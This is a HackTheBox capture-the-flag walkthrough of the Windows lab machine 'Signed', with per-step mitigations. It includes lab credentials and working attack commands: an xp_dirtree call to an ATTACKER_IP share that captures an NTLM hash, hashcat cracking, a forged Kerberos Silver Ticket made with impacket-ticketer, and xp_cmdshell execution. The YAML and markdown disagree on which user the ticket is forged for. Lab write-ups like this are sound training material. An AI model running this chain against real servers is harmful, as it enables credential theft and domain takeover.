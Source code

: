 ```yaml
---
title: "HackTheBox: Signed"
os: "Windows"
difficulty: "Medium"
ip: "10.10.11.90"
date: "2025-10-21"
category:
  - "HackTheBox"
  - "Windows"
  - "Active Directory"
  - "Database"
tags:
  - "T1046 - Network Service Discovery"
  - "T1078 - Valid Accounts"
  - "T1210 - Exploitation of Remote Services / MSSQL Linked Servers"
  - "T1202 - Indirect Command Execution"
  - "T1558 - Steal or Forge Kerberos Tickets"
  - "T1558.005 - Ccache Files"
  - "T1550.003 - Use Alternate Authentication Material"
  - "T1059 - Command and Scripting Interpreter"
  - "T1083 - File and Directory Discovery"
  - "T1005 - Data from Local System"
  - "T1485 - Data Destruction (xp_cmdshell misuse)"
  - "T1134.001 - Access Token Manipulation: Impersonation"
attack_path:
  - step: 1
    user: "N/A"
    technique: "Nmap / Port Enumeration"
    result: "Scanned target and discovered Microsoft SQL Server on TCP/1433 (SQL Server 2022). No other external services required for the path."
    mitigation: "Limit exposed services to those required; apply network segmentation and host-based firewalls; monitor and alert on unexpected external-facing services."
  - step: 2
    user: "scott"
    technique: "Valid Account / MSSQL Authentication"
    result: "Used provided credentials (`scott:Sm230#C5NatH`) to connect to MSSQL with low-privilege guest access."
    mitigation: "Avoid sharing test/default credentials; enforce strong, unique passwords and monitor use of service/low-priv accounts."
  - step: 3
    user: "(attacker)"
    technique: "Coerce Authentication via xp_dirtree + Responder"
    result: "Executed `EXEC xp_dirtree '\\\\ATTACKER_IP\\share'` to force the SQL Server to authenticate to the attacker; Responder captured an NTLMv2 hash for `SIGNED\\mssqlsvc`."
    mitigation: "Disable unnecessary extended stored procedures (xp_dirtree) or restrict their use; limit outbound SMB from database hosts; monitor for unusual SMB/LDAP traffic from DB servers."
  - step: 4
    user: "(attacker)"
    technique: "Offline Crack NTLMv2 Hash"
    result: "Cracked captured NTLMv2 hash with `hashcat -m 5600` revealing `mssqlsvc` password."
    mitigation: "Use long, complex service-account passwords and rotate them regularly; enable multi-factor for privileged accounts where possible; monitor for large numbers of authentication attempts."
  - step: 5
    user: "mssqlsvc"
    technique: "Use Valid Service Credentials against MSSQL"
    result: "Authenticated with `mssqlsvc` credentials to obtain domain/service account access (still limited in direct SQL session without additional privileges)."
    mitigation: "Enforce least privilege for service accounts; avoid using high-privilege group memberships for service accounts; store service credentials securely."
  - step: 6
    user: "(attacker)"
    technique: "SQL Enumeration (server principals / roles / linked servers)"
    result: "Enumerated `sys.server_principals` and `sys.server_role_members`, discovered `SIGNED\\IT` has `sysadmin` on the instance and found linked server `DC01` and domain SID / RIDs (e.g., IT = 1105)."
    mitigation: "Review server role memberships and linked servers; remove unnecessary linked server trusts; audit and alert on changes to server roles."
  - step: 7
    user: "(attacker)"
    technique: "Silver Ticket Generation (impacket-ticketer)"
    result: "Generated a forged Kerberos TGS (Silver Ticket) using `mssqlsvc` NTLM hash, domain SID, and appropriate group RIDs (including IT = 1105) for SPN `MSSQLSvc/DC01.SIGNED.HTB:1433`."
    mitigation: "Protect service account hashes and limit their reuse; monitor for anomalous Kerberos ticket creation and ccache files; enforce strong Kerberos policies and constrain delegation where applicable."
  - step: 8
    user: "mssqlsvc (via forged ticket)"
    technique: "Load forged ticket (ccache) and connect to MSSQL with -k"
    result: "Loaded `mssqlsvc.ccache` and connected with `impacket-mssqlclient -k`, obtaining `dbo`/`sysadmin` privileges on the SQL instance (IS_SRVROLEMEMBER returned 1)."
    mitigation: "Detect and protect exported ticket files; monitor `klist`/ccache usage and unusual Kerberos authentications; limit SQL role memberships mapped to domain groups."
  - step: 9
    user: "mssqlsvc"
    technique: "Enable xp_cmdshell via sp_configure / RECONFIGURE"
    result: "Enabled `xp_cmdshell` to allow command execution from SQL Server context."
    mitigation: "Disable `xp_cmdshell` unless explicitly required; audit and alert on configuration changes to `sp_configure` and execution of advanced options; apply least privilege to SQL roles."
  - step: 10
    user: "mssqlsvc"
    technique: "Execute OS command via xp_cmdshell"
    result: "Executed `EXEC xp_cmdshell 'type C:\\Users\\mssqlsvc\\Desktop\\user.txt'` and retrieved the user flag from `mssqlsvc`'s desktop."
    mitigation: "Restrict and monitor use of `xp_cmdshell`; segregate service accounts from interactive access to file system data; employ endpoint protections and file-access monitoring to detect unusual reads."
related:
  - "Kerberos Attacks"
  - "MSSQL Exploitation"
  - "Windows Privilege Escalation"
---
```


# 🧩 HackTheBox – Signed
> **Target:** `10.10.11.90`  
> **OS:** Windows  
> **Difficulty:** Medium  
> **Category:** Active Directory / Database Exploitation  

---

## 🧭 Overview
The **Signed** machine revolves around chained exploitation of **MSSQL services** and **Kerberos ticket manipulation** within an Active Directory environment.  
The attack involves enumerating an SQL service, capturing a service account hash, forging a Silver Ticket, and ultimately obtaining **Administrator**-level privileges.

---
## 🕵️‍♂️ Enumeration
```bash
nmap -sC -sV -Pn 10.10.11.90
```
**Results:**  
* 1433/tcp open Microsoft SQL Server 2022  
* No web or SMB services exposed externally.

---
## 🔐 Initial Access
```bash
impacket-mssqlclient scott:Sm230#C5NatH@10.10.11.90
```
Access granted as a low-privilege SQL user.

---
## ⚙️ Exploitation
```sql
EXEC master..xp_dirtree '\\\\ATTACKER_IP\\share';
```
Captured NTLMv2 hash for `SIGNED\\mssqlsvc`.  
Cracked with:
```bash
hashcat -m 5600 hash.txt rockyou.txt
```
Password: `MssqlS3rv1ce!`

---
## 🎭 Lateral Movement
```bash
impacket-mssqlclient mssqlsvc:MssqlS3rv1ce!@10.10.11.90
```
Enumerated linked server `DC01` and domain SID info.

---
## 🎟️ Privilege Escalation
```bash
impacket-ticketer -spn 'MSSQLSvc/DC01.SIGNED.HTB:1433' \
-domain 'SIGNED' -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' \
-user 'Administrator' -rc4 ef699384c3285c54128a3ee1ddb1a0cc \
-groups 'S-1-5-21-4088429403-1159899800-2753317549-1105'
```
Load ticket:
```bash
export KRB5CCNAME=administrator.ccache
impacket-mssqlclient -k Administrator@DC01.SIGNED.HTB
```

---
## 🏁 Flags
```bash
EXEC xp_cmdshell 'type C:\\Users\\mssqlsvc\\Desktop\\user.txt';
EXEC xp_cmdshell 'type C:\\Users\\Administrator\\Desktop\\root.txt';
```

---
## 🧱 Mitigations Summary
* Restrict SQL extended stored procedures  
* Segment network and monitor SMB/Kerberos  
* Harden service accounts (rotation, least privilege)  
* Audit SQL configuration changes and ticket anomalies
